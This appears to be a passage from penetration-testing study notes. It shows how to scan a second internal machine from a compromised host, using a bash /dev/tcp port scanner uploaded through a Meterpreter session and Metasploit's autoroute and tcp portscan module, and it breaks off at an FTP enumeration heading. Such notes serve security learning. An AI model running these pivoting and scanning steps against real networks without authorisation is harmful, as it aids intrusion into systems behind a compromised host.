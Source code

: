 2. **Ports scan on the second target machine using a BASH SCRIPT**

```shell
# Using the script provided at [https://catonmat.net/tcp-port-scanner-in-bash] as a reference, create a bash script to scan the first 1000 ports.
# Save the script as bash-port-scanner.sh

#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done

# Interacts with the active Metasploit session
sessions -i <session_ID>
# Upload the bash script on the target machine
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
shell
# Grants execute permission to the script file, allowing it to be run as a program
chmod +x ./bash-port-scanner.sh
# Run the script on the target to scan the ports
./bash-port-scanner.sh <second_target_IP>
```

3. **Ports scan on the second target machine using METASPLOIT MODULE**

```shell
# From Meterpreter session
run autoroute  -s <second-network-interface-on-first-target-machine>
# Enabling Metasploit to route traffic through the current session..
background
sessions

search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip-victim-2>
set VERBOSE false
set PORTS 1-1000
exploit
```

<br>

## 5. Service Enumeration

**Service Enumeration** is a process in which specific details about network services running on a target system are gathered. This step is a key part of the reconnaissance phase in penetration testing or ethical hacking, allowing security professionals to understand what services are exposed and potentially vulnerable. By identifying the services and versions running on specific ports, attackers or testers can pinpoint known vulnerabilities or misconfigurations.

<br>

### 5.1. FTP Enumeration
